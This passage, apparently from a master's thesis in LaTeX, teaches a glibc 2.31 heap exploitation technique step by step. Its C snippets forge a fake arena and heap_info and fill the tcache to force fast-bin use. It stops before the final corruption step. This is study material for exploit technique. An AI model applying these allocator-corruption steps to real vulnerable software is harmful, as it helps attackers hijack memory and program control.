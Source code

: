\documentclass{masterthesis}
\newcommand*\libc{glibc}
\newcommand*\tch{tcache}
\newcommand*\fb{fast bins}
\begin{document}
The first line is maximum heap size, also, the second line is maximum chunk size. This is the threshold of mmap. 
\begin{lstlisting}[language=c,frame=tlrb]

	uint8_t* fake_arena = malloc(0x1000); 
	uint8_t* target_loc = fake_arena + 0x30;
	uint8_t* target_chunk = (uint8_t*) fake_arena - 0x10;
\end{lstlisting}
The second step is to initialize the mentioned fake arena and target location. Then, initial malloc\_state of the arena, also, system\_mem field. This field is used to validate the size of the chunk, so it must be larger than our chunk size. 
\begin{lstlisting}[language=c,frame=tlrb]

	fake_arena[0x888] = 0xFF;
	fake_arena[0x889] = 0xFF; 
	fake_arena[0x88a] = 0xFF; 
\end{lstlisting}
Now we need to find the location of fake arena 
\begin{lstlisting}[language=c,frame=tlrb]
	uint64_t new_arena_value = (((uint64_t) target_chunk) + HEAP_MAX_SIZE) & ~(HEAP_MAX_SIZE - 1);
	uint64_t* fake_heap_info = (uint64_t*) new_arena_value;
\end{lstlisting}
The next step as we told, The location of fake arena is located at an offset of the heap so we have to allocate fake chunks until reach the fake new arena:
\begin{lstlisting}[language=c,frame=tlrb]
	uint64_t* user_mem = malloc(MAX_SIZE);
	while((long long)user_mem < new_arena_value){
		user_mem = malloc(MAX_SIZE);
	}
\end{lstlisting}
As we told, this approach use the \fb{} approach , so, we need a chunk in range of the \fb{} chunk , also, a pointer to chunk : 
\begin{lstlisting}[language=c,frame=tlrb]
	uint64_t* fastbin_chunk = malloc(0x50)
	uint64_t* chunk_ptr = fastbin_chunk - 2
\end{lstlisting}
This file work on \libc{-2.31} which support \tch{} as the first mechanism, so, like fastbin\_dup all we need is to fill up the \tch{} to force the heap manager role back to the \fb{}
\begin{lstlisting}[language=c,frame=tlrb]

	uint64_t* tcache_chunks[7];
	for(int i = 0; i < 7; i++){
		tcache_chunks[i] = malloc(0x50);
	}	
	for(int i = 0; i < 7; i++){
		free(tcache_chunks[i]);
	}
\end{lstlisting}
The next step is setting up ar\_ptr of heap structure in the fake heap. This field is the first one in the structure and is located at offset 0x00. 
\end{document}
